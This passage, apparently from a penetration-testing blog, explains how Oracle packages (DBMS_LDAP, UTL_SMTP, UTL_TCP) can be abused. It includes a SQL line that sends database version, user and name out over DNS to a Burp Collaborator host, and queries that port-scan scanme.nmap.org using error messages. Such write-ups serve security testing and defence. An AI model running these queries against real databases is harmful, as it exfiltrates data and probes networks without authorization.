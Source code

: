 In any case, let’s take a look at some of the packages that we have discovered and listed above.

**DBMS_LDAP.INIT**

The `DBMS_LDAP` package allows for access of data from LDAP servers. The `init()` function initializes a session with an LDAP server and takes a hostname and port number as an argument.

This function has been documented before to show exfiltration of data over DNS, like below

```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```

However, given that the function accepts a hostname and a port number as arguments, you can use this to work like a port scanner as well.

Here are a few examples

```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```

A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` shows that the port is closed while a session value points to the port being open.

**UTL_SMTP**

The `UTL_SMTP` package is designed for sending e-mails over SMTP. The example provided on the [Oracle documentation site shows how you can use this package to send an email](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). For us, however, the interesting thing is with the ability to provide a host and port specification.

A crude example is shown below with the `UTL_SMTP.OPEN_CONNECTION` function, with a timeout of 2 seconds

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```

A `ORA-29276: transfer timeout` shows port is open but no SMTP connection was estabilished while a `ORA-29278: SMTP transient error: 421 Service not available` shows that the port is closed.

**UTL_TCP**

The `UTL_TCP` package and its procedures and functions allow [TCP/IP based communication with services](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). If programmed for a specific service, this package can easily become a way into the network or perform full Server Side Requests as all aspects of a TCP/IP connection can be controlled.
